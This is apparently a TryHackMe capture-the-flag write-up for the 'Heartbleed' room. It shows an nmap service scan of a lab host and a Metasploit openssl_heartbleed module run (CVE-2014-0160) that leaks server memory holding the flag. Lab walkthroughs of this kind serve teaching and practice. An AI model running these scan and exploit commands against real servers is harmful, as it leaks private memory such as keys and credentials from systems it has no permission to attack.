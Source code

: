 ```yaml
---
clayout: ctf
title: Heartbleed
type: TryHackMe
date: 2025-09-14
level: Easy
icon: /ctf/tryhackme/heart-bleed/icon-room.png
image: /ctf/tryhackme/heart-bleed/icon-room.png
description: SSL issues are still lurking in the wild! Can you exploit this web servers OpenSSL?
ctf-link: https://tryhackme.com/room/heartbleed
---
```


## Challenge Overview

The target machine hosts several exposed services, including an outdated version of OpenSSL. According to the room’s description, this version is vulnerable to the Heartbleed bug (CVE-2014-0160), which allows an attacker to read arbitrary memory from the server.

## Enumeration

### Nmap Scan

We start by scanning all TCP ports with service:

```bash
nmap -sV -sC -p- -oN nmap.txt 34.245.74.198
```

**Results:**

```bash
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.4 (protocol 2.0)
111/tcp   open  rpcbind  2-4 (RPC #100000)
443/tcp   open  ssl/http nginx 1.15.7
42967/tcp open  status   1 (RPC #100024)
```

* **22/SSH** – OpenSSH 7.4 (no immediate indication of a weakness).
* **111/RPCbind** – Typically part of NFS or other RPC services.
* **443/HTTPS** – nginx 1.15.7 with a certificate issued to *localhost*. This service is the most interesting, as it is likely tied to the Heartbleed vulnerability.
* **42967/Status** – RPC status service.

From the challenge description, we know OpenSSL is used on this host, and the version is vulnerable to Heartbleed. This makes port **443/tcp** our primary target.

## Exploitation

### Heartbleed Attack

We can verify and exploit the Heartbleed vulnerability using Metasploit’s auxiliary module:

```bash
msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 34.245.74.198
set VERBOSE true
run
```

**Result:**

![Heartbleed exploit running](/ctf/tryhackme/heart-bleed/heartbleed.png)

The exploit successfully retrieves chunks of server memory with the flag.
